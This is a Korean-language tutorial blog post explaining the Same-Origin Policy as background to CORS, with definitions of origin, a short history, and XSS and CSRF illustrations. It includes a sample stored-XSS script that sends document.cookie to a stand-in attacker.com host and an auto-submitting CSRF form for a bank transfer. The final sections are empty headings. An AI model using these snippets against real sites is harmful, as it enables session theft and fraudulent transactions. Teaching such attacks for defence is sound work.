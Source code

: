 ```yaml
---
title: CORS(Cross-Origin Resource Sharing) 이해하기
date: 2025-01-20 16:30:00 +09:00
last_modified_at: 2025-01-20 16:30:00 +09:00
categories: [Browser]
tags:
  [
    CORS,
    SOP,
    Browser
  ]
---
```


`CORS(Cross-Origin Resource Sharing)`는 서로 다른 출처간의 리소스를 공유하기 위한 매커니즘입니다.  
이러한 정책이 필요한 이유를 이해하기 위해 `SOP(Same-Origin Policy)`부터 시작하여 차근차근 정리해보겠습니다.

## SOP(Same-Origin Policy)
SOP(Same-Origin Policy, 동일 출처 정책)는 어떤 출처에서 로드된 문서나 스크립트등이 다른 출처의 리소스에 접근하지 못하도록 제한하는 중요한 보안 메커니즘입니다.  
이를 통해 악의적인 스크립트가 다른 출처의 민감한 데이터를 탈취하는 것을 방지합니다.

### SOP 정의
> SOP에서 `출처(Origin)`는 **프로토콜(protocol)**, **호스트(host)**, **포트(port)** 를 모두 포함한 개념입니다.  
> 즉, 프로토콜, 호스트, 포트가 동일하면 같은 출처(Same-Origin)라고 할 수 있습니다.

| ![URL 구성요소](https://github-production-user-asset-6210df.s3.amazonaws.com/52861562/404744688-8550cfe7-6e66-40fa-9f44-947ae4c9ab37.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAVCODYLSA53PQK4ZA%2F20250120%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250120T045539Z&X-Amz-Expires=300&X-Amz-Signature=283ff9ad02631708caeb3b54f7ee78f1eb0f78854a3d3951a43aa4e82f4b9966&X-Amz-SignedHeaders=host) |
|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|                                                                                                                                                                                                   *URL 구성요소*                                                                                                                                                                                                    |
  
- 예시:
  - Origin: http://hajeonghun.com
    - http://hajeonghun.com/page1 → ✅ 포트가 생략되면 기본 포트기준으로 http 80이므로 동일 출처.
    - http://hajeonghun.com:80/page1 → ✅ 프로토콜, 호스트, 포트가 같으므로 동일 출처.
    - http://hajeonghun.com:3000/page1 → ❌ 포트가 다르므로 다른 출처.
    - https://hajeonghun.com:443/page1 → ❌ 프로토콜이 다르므로 다른 출처.
    - http://api.hajeonghun.com:80/page1 → ❌ 서브도메인이 다르므로 다른 출처.

### 초창기 웹의 역할과 보안 문제
1990년대 초 웹은 단순한 정적 문서 기반으로 시작되었으며, 보안에 대한 개념이 초기에는 크게 고려되지 않았습니다.

- 초기 웹의 특성:
  - HTML 문서와 이미지 등 단순 리소스를 가져오는 용도로 설계됨.
- 자바스크립트 등장:
  - 1995년 자바스크립트가 등장하며 클라이언트 측에서 동적 동작과 데이터를 처리할 수 있는 기능이 추가됨.
- 문제:
  - 초기에는 출처(Origin)에 대한 제약이 없었기 때문에 웹 페이지에서 다른 사이트의 데이터를 자유롭게 가져오거나, 악의적인 사이트가 민감한 정보를 탈취할 가능성이 있었습니다. (XSS, CSRF 등...)

### SOP 탄생배경
웹이 동적으로 발전하면서 같이 보안 문제도 증가하게 되었습니다. 이에 따라 잠재적으로 악의적인 사이트간의 격리를 통해 공격 가능성을 줄이기 위해 탄생하였습니다.
- 브라우저의 역할 확대:
  - 브라우저가 단순 문서 뷰어에서 클라이언트-서버 통신을 담당하는 플랫폼으로 발전하면서, 공격자가 자바스크립트를 이용해 민감한 정보를 훔치거나 서버에 무단 요청을 보내는 공격이 가능해짐.
- 보안 공격의 현실화:
  - XSS(Cross-Site Scripting): 공격자가 사용자 브라우저에서 악성 스크립트를 실행.
  - CSRF(Cross-Site Request Forgery): 공격자가 사용자의 인증 정보를 도용하여 악의적인 요청을 수행.
  - 이런 공격이 SOP가 없는 초기 환경에서는 매우 쉽게 이루어졌습니다.

   | 구분    | 	CSRF                                      | 	XSS                                       |  
    |-------|--------------------------------------------|--------------------------------------------|  
    | 공격 대상 | 	서버                                        | 	사용자                                       |  
    | 피해자   | 	인증된 사용자가 자신의 인증 정보를 기반으로 위조된 요청을 보내는 경우.	 | 웹사이트의 취약점을 악용하여 다른 사용자가 악성 스크립트를 실행하도록 유도. |

> 💡 SOP(Same-Origin Policy)만으로는 웹 보안을 완벽히 달성할 수 없으며, XSS와 CSRF를 방어하기 위해 별도의 보안 대책이 필요합니다.

### XSS(Cross-Site Scripting, 크로스사이트 스크립팅)
> XSS(Cross-Site Scripting, 크로스사이트 스크립팅)은 해커가 입력한 악의적인 스크립트가 클라이언트 측에서 실행되는 공격으로    
쿠키 값 또는 세션 등 사용자의 중요 정보를 탈취하거나 피싱 사이트로의 접근 유도 등 클라이언트 측에 직접적인 피해를 줄 수 있습니다.

| ![xss 공격](https://github.com/user-attachments/assets/07d1fa42-49c9-46d8-afbf-1dfee10b44d2) |
|--------------------------------------------------------------------------------------------|
| *Stored XSS (저장형 크로스사이트 스크립팅)*                                                             |

1. XSS 공격 시나리오 (SOP 도입 전)
   1. 공격자가 게시판과 같은 사용자 입력을 처리하는 사이트(예: http://hajeonghun.com)에서 악성 JavaScript 코드를 삽입한 게시물 작성
   2. 삽입된 코드는 사용자가 해당 페이지에 방문하여 게시물을 열람할 때 실행되어, 사용자의 쿠키(로그인 세션)를 공격자 서버로 전송
  

2. 공격 코드
```html
<!-- 공격자가 게시판에 삽입한 악성 스크립트 -->
<script>
  // 사용자의 쿠키를 공격자 서버로 전송
  fetch("http://attacker.com/steal-cookie", {
    method: "POST",
    body: JSON.stringify({ cookie: document.cookie }),
    headers: { "Content-Type": "application/json" }
  });
</script>
```


3. SOP가 없는 상황에서 발생 가능한 문제  
   - 브라우저는 document.cookie에 대해 출처를 제한하지 않으므로, 이 스크립트는 사용자가 현재 방문 중인 웹사이트(예: http://hajeonghun.com)의 쿠키에 접근할 수 있습니다.  
   - 공격자는 사용자의 로그인 세션을 탈취해 해당 사용자의 계정을 도용할 수 있습니다.

### CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)
> CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)는 사용자가 의도하지 않은 요청을 신뢰할 수 있는 웹 애플리케이션에 보냄으로써 발생하는 보안 취약점입니다.  
공격자는 피해자의 인증 정보를 악용하여 서버에 권한이 있는 요청을 위조합니다.

| ![csrf 공격](https://github.com/user-attachments/assets/d3fc10a2-4056-434c-b85c-7b0a22b75839) |
|---------------------------------------------------------------------------------------------|
| *CSRF (사이트 간 요청 위조)*                                                              

1. CSRF 공격 시나리오 (SOP 도입 전)
   1. 사용자가 은행 사이트(예: http://bank.com)에 로그인한 상태에서, 공격자 사이트(예: http://attacker.com)를 방문
   2. 공격자 사이트는 사용자의 인증된 세션을 악용하여 은행 서버로 요청을 보냄


2. 공격 코드 
```html
<!-- 공격자가 자신의 악성 사이트(예: http://attacker.com)에 삽입 -->
<form action="http://bank.com/api/transfer" method="POST">
  <input type="hidden" name="to_account" value="1103109999">
  <input type="hidden" name="amount" value="30000000">
  <input type="submit" value="Click here to win a prize!">
</form>

<script>
  // 사용자가 버튼을 클릭하지 않아도 자동으로 폼 제출
  document.forms[0].submit();
</script>
```


3. SOP가 없는 상황에서 발생 가능한 문제
- 은행 사이트(예: http://bank.com)의 인증 쿠키는 SOP가 없기 때문에 자동으로 서버에 전송됩니다.
- 은행 서버는 요청이 신뢰할 수 있는 출처에서 온 것인지 확인하지 않고 처리합니다.
- 결과적으로 사용자는 알지 못한 채로 자신의 계좌에서 돈이 빠져나갑니다.

### SOP의 주요 목적
### SOP가 해결한 보안 문제
### SOP의 한계와 이후의 확장
